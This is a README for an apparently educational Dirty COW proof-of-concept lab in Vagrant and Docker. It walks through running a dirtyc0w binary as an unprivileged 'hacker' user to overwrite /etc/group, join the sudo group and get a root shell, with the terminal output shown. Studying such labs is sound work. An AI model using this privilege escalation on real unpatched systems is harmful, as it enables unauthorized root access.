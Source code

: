 # Dirtyc0w Docker POC
Done by **Ben Azzouz Majd**, **El Houti Ouadie**, **Maaraki Zakaria** 
```
Prerequisites:
- Vagrant installed

```

# How to use

Firstly clone the project
``
git clone https://github.com/BrolyCode/Dirty-Cow.git 
``
Get into the folder
``
cd Dirty-Cow
``
Then run up the environment with the command
```
vagrant up
```
Once the server is built, we will ssh into it
```
vagrant ssh
```
change to the root user
```
sudo -i
```
The first container should be running as part of the build process, we can check this with
```
docker ps
```
You should get something like
```
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                         NAMES
db86f1c04483        scottyc/dirtyc0w    "nginx -g 'daemon off"   22 seconds ago      Up 19 seconds       0.0.0.0:80->80/tcp, 443/tcp   nginx
```
Now we can log on as the hacker 
```
docker exec -it -u hacker nginx bash
```
In the directory we are logged into we have the following files
```
drwxrwxrwt  2 root root  4096 Nov  26 11:10 .
drwxr-xr-x 41 root root  4096 Nov  26 11:10 ..
-rwxr-xr-x  1 root root  9880 Nov  26 04:52 dirtyc0w
-rwxrwxrwx  1 root root  9880 Nov  26 04:52 dirtyc0w.c
```
If we cat the file `/etc/group` we see
```
hacker@27862a2f9973:~$ cat /etc/group
root:x:0:
daemon:x:1:
bin:x:2:
sys:x:3:
adm:x:4:
tty:x:5:
disk:x:6:
lp:x:7:
mail:x:8:
news:x:9:
uucp:x:10:
man:x:12:
proxy:x:13:
kmem:x:15:
dialout:x:20:
fax:x:21:
voice:x:22:
cdrom:x:24:
floppy:x:25:
tape:x:26:
sudo:x:27:
....

```

We can try to login as a root
```
sudo -i

```
But the system will refuse to, because We don't have the right to access. We will now exploit the fail on `/etc/group`
```
./dirtyc0w 
```
It will print out the following to the terminal, we must wait a litle bit of time (2/3 minutes).
```
mmap 7fd0facf4000

madvise 0

procselfmem 1500000000
```
Then we will cat `/etc/group` again
```
hacker@27862a2f9973:~$ cat /etc/group
root:x:0:
daemon:x:1:
bin:x:2:
sys:x:3:
adm:x:4:
tty:x:5:
disk:x:6:
lp:x:7:
mail:x:8:
news:x:9:
uucp:x:10:
man:x:12:
proxy:x:13:
kmem:x:15:
dialout:x:20:
fax:x:21:
voice:x:22:
cdrom:x:24:
floppy:x:25:
tape:x:26:
sudo:x:27:hacker
...

```

Login as root
```
sudo -i

root@27862a2f9973:~#
```



# Clean Up

Exit back to your host machines terminal and issue `vagrant destroy`
